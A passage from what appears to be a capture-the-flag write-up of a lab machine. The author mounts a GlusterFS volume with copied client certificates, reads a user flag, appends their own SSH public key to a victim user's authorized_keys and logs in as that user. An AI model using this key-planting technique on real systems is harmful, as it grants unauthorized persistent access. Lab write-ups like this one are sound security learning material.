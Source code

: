 

I'll copy `glusterfs.key` and `glusterfs.ca` into `/etc/ssl`, and it
works:



    root@hacky:/etc/ssl# mount -t glusterfs 10.10.11.131:/vol1 /mnt
    root@hacky:/etc/ssl# ls /mnt
    user.txt



I'll grab `user.txt`:



    root@hacky:/mnt# cat user.txt
    085ee121************************



### SSH

This is actually jennifer's homedir:



    root@hacky:/mnt# ls -la
    total 22
    drwxr-x---  5 oxdf oxdf 4096 Oct 25 01:49 .
    drwxr-xr-x 21 root root 4096 Feb  7 06:40 ..
    lrwxrwxrwx  1 oxdf oxdf    9 Oct 28 02:59 .bash_history -> /dev/null
    -rw-r--r--  1 oxdf oxdf  220 Sep 20 08:27 .bash_logout
    -rw-r--r--  1 oxdf oxdf 3526 Sep 20 08:27 .bashrc
    drwx------  3 oxdf oxdf 4096 Oct 25 01:44 .gnupg
    -rw-r--r--  1 oxdf oxdf  807 Sep 20 08:27 .profile
    drwx------  2 oxdf oxdf 4096 Dec  7 14:54 .ssh
    -r--------  1 oxdf oxdf   33 Feb  7  2022 user.txt



I'll write my public key into the `authorized_keys` file:



    root@hacky:/mnt/.ssh# ls
    authorized_keys
    root@hacky:/mnt/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 



Now I can connect as jennifer:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen jennifer@10.10.11.131
    Linux flustered 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jennifer@flustered:~$ 
